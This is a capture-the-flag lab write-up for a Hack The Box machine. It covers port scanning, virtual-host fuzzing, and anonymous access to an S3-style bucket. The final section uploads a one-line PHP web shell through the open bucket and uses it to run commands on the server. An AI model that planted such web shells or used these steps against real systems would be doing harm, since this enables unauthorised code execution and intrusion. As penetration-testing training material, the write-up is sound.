

---
tags:
  - Linux
  - HTTP
  - Amazon S3 Bucket
  - Weak credentials
  - PHP
---

... is a HTB machine which has the open ports `22` and `80`. On the web service, a domain can be found. VHost fuzzing can be done on that domain to find out a subdomain which hosts an `Amazon S3 Bucket` which accepts logins without credentials. A malicious `PHP` file can be uploaded via this bucket.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This is a very standard set of ports in any HTB machine, as it probably includes a `http` service mis-configuration which enables us to connect via `ssh` with the found credentials.

As with any `http` service, it is reachable via the browser, so i visit the web page using `firefox`. The `http` source did not show any interesting redirects via the `href` elements, nor did the comments hold any secrets. 
A short `dirb http://$IP` scan has found the `index.php`, and the `/images` sub directory. Apart from now knowing that `PHP` is used as the back-end language for its programming, this does not lead anywhere.

### Initial Exploitation
After looking through the page i have stumbled upon the contact section. There, a mail named `mail@thetoppers.htb` is given. This is the domain name which resolves to the IP address of the machine so that it can receive mail. Knowing this, i edit the `/etc/hosts` file so that i can map the domain
This file acts like a local DNS, as it resolves host names to IP-addresses.  It requires elevated privileges (`sudo`) to do so. Any text editor such as `vim`, `nano` or `mousepad` will do, but this command does it without manually writing into the file:
```bash
echo "$IP thetoppers.htb" | sudo tee --append /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# echo "...": writes the specified string into STDOUT (terminal)
# | : redirect (pipe) the STDOUT of the left command into the STDIN of the right command
# sudo tee --append /etc/hosts: write the received STDIN into a file without overwriting it. requires sudo, as that file is critical to the system  
```

When now visiting `http://thetoppers.htb`, it resolves to the same web page as before.

It is now possible to find further subdomains of the main DNS name: `thetoppers.htb`. Subdomains could be `www.thetoppers.htb`, `dev.thetoppers.htb` or `api.thetoppers.htb`. Usually, these subdomains lead to different IP addresses, but in a HTB CTF all subdomains usually lead to the same machine, which is why it is a called a `VHost` (virtual host). It is one `http` service which serves different resources based on the Header `Host:` in the `http-request`.

The first step with subdomain enumeration is to do some passive reconnaissance (do not initiate connections to the machine, use public information) using tools like `subfinder`, `amass`, `sublist3r.py`, `google dorking`, `crt.sh lookup` or `nslookup`.
Because the `thetoppers.htb` is not a public domain, and we need a VPN to actually access it, this probably won't work (it did in fact, not work.).
Because of these facts, `VHost` fuzzing is the way to go! It is the act of sending a lot of requests in which the `Host: <entry>.thetoppers.htb` header is being tried with each entry of a list. The list should contain a lot of subdomain names which are used. 
The goal of this approach is to find sub domains which present us different content than the one with the main DNS name. The tool for this job is `ffuf`, which is a fast and reliable web fuzzer (places entries of a wordlist in the specified location). 
The last keystone for this attack to work is the actual wordlist which contains a lot of subdomain names which are very likely to be used. On my kali machine, there were no such files. I have decided to use one of the wordlists of the `SecLists` [github](https://github.com/danielmiessler/SecLists). As i didnt want to fill my storage with tons of big wordlists, i have picked out the wordlist `SecLists/Discovery/DNS/subdomains-top1million-5000.txt`, and downloaded it like this:
```bash
curl -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/DNS/subdomains-top1million-5000.txt
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -O: preserve the name of the file when saving it.
```

I have then used the following command to perform VHost fuzzing using `ffuf` and the `subdomains-top1million-5000.txt` wordlist:
```bash
ffuf -w ./subdomains-top1million-5000.txt -H "Host: FUZZ.thetoppers.htb" -u http://thetoppers.htb
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -w: specify wordlist file
# -H: add specific header. Here, the header "FUZZ.thetoppers.htb" is chosen. the FUZZ word is replaced by each entry of the wordlist!
# -u: URL of the target
```

> **_NOTE:_**  Make sure to NOT bruteforce actual subdomains, as the main domain `thetoppers.htb` does NOT exist on the internet. For example, `http://FUZZ.thetoppers.htb` would not return correct entries, even if actual VHosts were present.

This command gave me a very long list of possible VHosts (The whole list with 5000 entries, to be exact), which is expected, as it only serves different content if the VHost matches. Each entry had the following info beside it:
```bash
[Status: 200, Size: 11952, Words: 1832, Lines: 235, Duration: 27ms]
```
This is where filtering comes into play. We can use a filter to leave out all requests which apply to the filter. It is possible to filter based on all information in each entry as follows:
```bash
-fc 200
# Leave out each request which responds with the code 200 OK
-fs 11952
# Leave out each request in which the content has the size 11952
-fw 1832
# Leave out each request with exactly 1832 words
-fl 235
# Leave out requests with the line count 235
-ft >27
# Leave out request which take longer than 27 ms
-ac
# automatically calibrate filter
```

I have chosen to filter away all responses which have the size 11952 using the `-fs 11952` flag. The problem is that no responses were coming anymore.

After debugging for a while and looking at the expected state in official writeups, it turns out that the real VHost returns the response code `404`, which gets ignored by `ffuf` by default... To do so, we must tell it to accept all status codes, as it only accepts `200-299,301,302,307,401,403,405,500` by default, and `404` is not in there. The flag `-mc all` enables this. The final command which finds the VHost is:
```bash
ffuf -w ./subdomains-top1million-5000.txt -H "Host: FUZZ.thetoppers.htb" -u http://thetoppers.htb -mc all -fs 11952
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -w: specify wordlist file
# -H: add specific header. Here, the header "FUZZ.thetoppers.htb" is chosen. the FUZZ word is replaced by each entry of the wordlist!
# -u: URL of the target
# -mc: (match code) accepts "all" codes as valid responses
# -fs: filters by specified size
```

It finds the VHost `s3` ! When trying to visit `s3.thetoppers.htb` in the browser, it does not find that subdomain (as it does not exist, its just a VHost). It is now possible to simply intercept the `http-request` in burpsuite and manually change the `Host:` header to include the `s3` before the domain, but it is easier to edit the `/etc/hosts` file again to include this new domain. After doing so, it can be visited in the browser and the `s3` gets automatically prepended onto the `Host:` header.

When editing the `/etc/hosts` file, the new `s3.thetoppers.htb` domain must be added next to the previous one (separated by space), which can be easily done with a text editor such as`vim`, `nano` or `mousepad`. `tee` does not allow this, as it only writes input by appending onto files or overwriting them. To achieve this without a text editor, `sed` ([non-interactive text editor which can modify content](https://www.geeksforgeeks.org/linux-unix/sed-command-in-linux-unix-with-examples/)) can still be used as follows:
```bash
sudo sed -i "s/$IP thetoppers.htb/$IP thetoppers.htb s3.thetoppers.htb/" /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: required, as we are editing /etc/hosts
# -i: edit the file in-place and overwrite it
# "s/old_word/new_word/": replaces each occurance of old_word with new_word
# /etc/hosts: file we want to edit
```

This now gives us access to the `s3.thetoppers.htb` VHost in the browser! When visiting it, it simply shows an `{"status": "running"}` `json` message. As `s3` most likely refers to an `AWS Amazon S3 Bucket`, it may be reasonable to interact with it using the `awscli` tool. An `S3 Bucket` is a file system hosted by amazon which stores files.

The installation of the tool works as follows:
```bash
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip" 
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -o: specify out file name
```

```bash
unzip awscliv2.zip
#sudo ./aws/install
```
I have commented out the last part, as i don't want to install it onto my system, ill just use the binary in the extraction directory like this:
```bash
./aws/dist/aws
```
To interact with an `s3` bucket, the sub-command `aws s3` is used. after reading the `aws s3 help` page, we can list the files on a so-called `S3-Uri` using the command `aws s3 ls s3://thetoppers.htb`.
Issuing that command lets us know that no credentials are configured, as we have no credentials for this bucket. In the `aws s3 ls help` page we can find out that the `--no-sign-request` allows us to try and access it anonymously! This, we are not allowed to do though.

After digging into the idea of `S3Uris` a bit, i have found out that `s3://thetoppers.htb` resolves to `https://thetoppers.htb.s3.amazonaws.com`. That is not the desired location, as the bucket is located at `http://s3.thetoppers.htb` instead! The flag for overriding this this `--endpoint-url <value>`! The full command breaks down to this:
```bash
./aws/dist/aws s3 ls s3://thetoppers.htb --endpoint-url http://s3.thetoppers.htb --no-sign-request --recursive
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# --endpoint-url: override the default value of http://<input>.s3.amazonaws.com
# --no-sign-request: do not ask for credentials
# --recursive: step into all directories automatically
```

This gives us these files:
```bash
      0 .htaccess
  90172 images/band.jpg
 282848 images/band2.jpg
2208869 images/band3.jpg
  77206 images/final.jpg
  69170 images/mem1.jpg
  39270 images/mem2.jpg
  64347 images/mem3.jpg
  11952 index.php
```
They can be copied onto the local machine using this slightly altered `aws` command:
```bash
./aws/dist/aws s3 cp s3://thetoppers.htb/index.php . --endpoint-url http://s3.thetoppers.htb --no-sign-request
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# --endpoint-url: override the default value of http://<input>.s3.amazonaws.com
# --no-sign-request: do not ask for credentials
```

The `.htaccess` would have been interesting, as it could have included credentials, but it is an empty file. The back end logic inside the `index.php` could have also been telling, but it doesn't include anything interesting.

That's not the end, as we can swap the `cp <SRC> <DEST>` locations from the previous command to upload files instead of downloading them. As we know that this machine uses `PHP` as its backend, this simple webshell can be uploaded:
```php
<?php system($_GET['cmd']); ?>
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# This file fetches the 'cmd' parameter from any GET request and inputs it into the PHP function system(). That function then executes what was read from that parameter.
```

Now, when visiting `http://thetoppers.htb/evil.php?cmd=whoami`, it shows the output of the command, which is `www-data`.

To read the flag, i have stepped into the directory `/home/svc`, but there wasn't any flag. To search for the `flag.txt` on the file-system, i have visited this URL to execute its command:
```http
http://thetoppers.htb/evil.php?cmd=find%20/%20-name%20flag.txt
```
After finding it, i can simply read it.

### Summary

Below is a visualized summary of the exploitation steps used in this machine.

